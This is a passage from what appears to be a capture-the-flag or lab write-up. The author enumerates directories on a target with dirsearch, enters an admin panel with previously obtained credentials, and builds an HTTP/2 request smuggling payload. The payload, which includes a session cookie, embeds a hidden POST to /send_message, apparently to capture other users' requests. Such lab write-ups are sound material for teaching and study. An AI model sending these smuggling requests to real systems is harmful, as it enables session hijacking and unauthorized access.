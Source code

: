 ```
   sendMessage();
  }
 });

 // Initial actions
 fetchMessages();
});

// Function to scroll to the bottom of the messages chat
function scrollToBottom() {
 const messagesChat = document.getElementById("messages-chat");
 messagesChat.scrollTop = messagesChat.scrollHeight;
}
```
**Directory Discovery (Port 80)**


```
python dirsearch.py -u https://target_ip:80
```

<img width="632" alt="1" src="https://github.com/user-attachments/assets/a0f1eae1-420c-451b-9fdc-c4c366574a1f" />



Results reveal /access endpoint.

Using previously obtained admin credentials, i can access this area:

![1](https://github.com/user-attachments/assets/5bf3b086-f8bd-46f9-84ad-0ed396db0729)

**Accessing the Admin Panel (Port 80)**

If I slightly reconstruct the request in Burp, it works like this:

<img width="818" alt="1" src="https://github.com/user-attachments/assets/ec510bbc-1943-4a84-b89e-3577d75b9b3d" />


So, I was able to send messages using my session.

Next, I decided to try HTTP/2 request smuggling.

There was also a helpful walkthrough on [`HTTP/2 Request Smuggling`](https://tryhackme.com/room/http2requestsmuggling) smuggling I followed.

First, I modified requests by switching protocols between HTTP/2 and HTTP/1.1, disabling the Upgrade Content-Length header.

<img width="831" alt="1" src="https://github.com/user-attachments/assets/56f245d9-0f73-4742-b925-7898bea2e968" />


Yeah, that worked.

Then, I modified the request and switched it back to HTTP/2:

```
POST / HTTP/2
Host: target_ip:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aFGF_g._K0bucZYIRUr8rw1EBKS0VR0vus
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: target_ip:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aFGF_g._K0bucZYIRUr8rw1EBKS0VR0vus
Content-Type: application/x-www-form-urlencoded
Content-Length: 730

data=
```
